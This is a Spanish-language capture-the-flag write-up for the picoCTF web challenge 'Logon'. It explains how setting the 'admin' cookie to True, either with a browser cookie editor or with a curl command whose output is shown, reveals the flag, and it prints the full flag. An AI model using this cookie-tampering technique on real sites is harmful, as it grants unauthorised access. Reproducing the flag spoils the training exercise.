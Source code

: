 # Logon

# Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594`
# Pistas
Hmm it doesn't seem to check anyone's password, except for Joe's?
# Solución

```bash
Solucion 1:

Para acceder a la bandera de este reto se instalo el plugin "cookie editor" para el navegador. 

Al editar la cookie de admin como "True", en lugar de "False", y al acceder con cualquier usuario se mostrará la bandera.


Solución 2:

adalh4ck1ng-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   2847      0 --:--:-- --:--:-- --:--:--  2845
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
adalh4ck1ng-picoctf@webshell:~$
```

# Bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

# Referencias
https://developer.mozilla.org/es/docs/Web/HTTP
https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods
https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica)